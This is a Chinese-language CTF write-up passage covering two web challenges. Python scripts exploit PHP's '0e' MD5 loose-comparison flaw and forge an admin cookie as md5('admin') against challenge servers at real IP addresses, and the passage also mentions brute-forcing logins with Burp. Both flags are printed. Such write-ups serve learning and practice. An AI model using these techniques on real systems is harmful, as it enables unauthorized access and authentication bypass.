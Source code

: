 提交一个flag参数， 参数里面如果包含`200`这个字符串就退出，如果字符串的md5值和`s1091221200a`一样就返回flag, 最开始我也没思路，一直没办法绕过。 
 
问了出题人，出题人直接复制了这一个字符串，右键google...醉醉的，我咋没想到直接google这个数字呢 
 
然后看到了这个一个[介绍](http://www.rabbit8.cn/569.html) php的哈希缺陷的，[这个也可以看](https://www.ohlinge.cn/php/0e_md5.html) ，然后页面里面随便选了一个值get提交就ok。 写了个exp如下 
```python 
import requests 
 
url = 'http://119.29.16.200:5003' 
str1 = 's1091221200a' 
str2 = 'QNKCDZO' 
 
web = requests.get(url+'/1.txt') 
print web.encoding 
web.encoding = 'utf-8' 
print web.text 
payload = { 
        'flag': str2, 
        } 
 
r = requests.post(url, params=payload) 
print r.encoding 
r.encoding = 'utf-8' 
print r.text 
print r.headers 
 
# 参考:http://www.rabbit8.cn/569.html 
# flag{IsDc_0e_Th3e01} 
``` 

 
## 0x03 admin 
打开只有一个登录框，没有验证码提示账号密码都是test, 我猜是出题人怕我们写脚本爆破把服务器搞崩了，这个服务器在学校内网233333。 
 
登录上去提示我们没有管理员权限，看了cookie以及网络请求都没东西，然后我试了试登录框用admin登录，开20个线程用burp爆破，10000的弱口令都没有..gg, 然后爆破的时候服务器500, 关了burp就没事，后来发现cookie是md5(test)的值， 然后把cookie改成md5(admin)就行了，poc如下 
```python  
import requests 
 
url = 'http://223.129.64.72:81/login' 
url = 'http://223.129.64.72:81/' 
 
payload = { 
        'user':'test', 
        'mm':'test' 
        } 
cookie = { 
        'cookies': '21232f297a57a5a743894a0e4a801fc3' 
        } 
 
r = requests.Session() 
 
# u = r.post(url,u payload, cookies=cookie) 
u = requests.get(url, cookies=cookie) 
print u.text 
 
``` 
请求的页面不能加上login..., 也不需要再次登录，直接带cookie去get请求就出flag了.. 
 